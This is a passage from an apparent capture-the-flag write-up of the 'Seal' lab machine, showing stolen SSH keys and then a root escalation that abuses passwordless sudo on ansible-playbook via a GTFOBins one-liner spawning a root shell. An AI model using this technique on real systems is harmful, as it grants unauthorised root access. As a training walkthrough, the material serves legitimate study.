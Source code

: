 One minute later, the

```bash
$ find ./dashboard/uploads -type f
./user.txt
./.ssh/authorized_keys
./.ssh/id_rsa
./.ssh/id_rsa.pub
```

```bash
luis@seal:~$ cat user.txt
<redacted>
```

## Root flag

Now that we're with Luis account, running `sudo -l`

```bash
luis@seal:~/.ansible/tmp$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

According to [ansible playbook | GTFOBins](https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo), we can use

```bash
luis@seal:~/.ansible/tmp$ TF=$(mktemp)
luis@seal:~/.ansible/tmp$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:~/.ansible/tmp$ sudo /usr/bin/ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] **************************************************************************************************************

TASK [Gathering Facts] ********************************************************************************************************
ok: [localhost]

TASK [shell] ******************************************************************************************************************
# id && hostname
uid=0(root) gid=0(root) groups=0(root)
seal
# cat /root/root.txt
<redacted>
# exit
changed: [localhost]

PLAY RECAP *********************************************************************************************************************
localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```
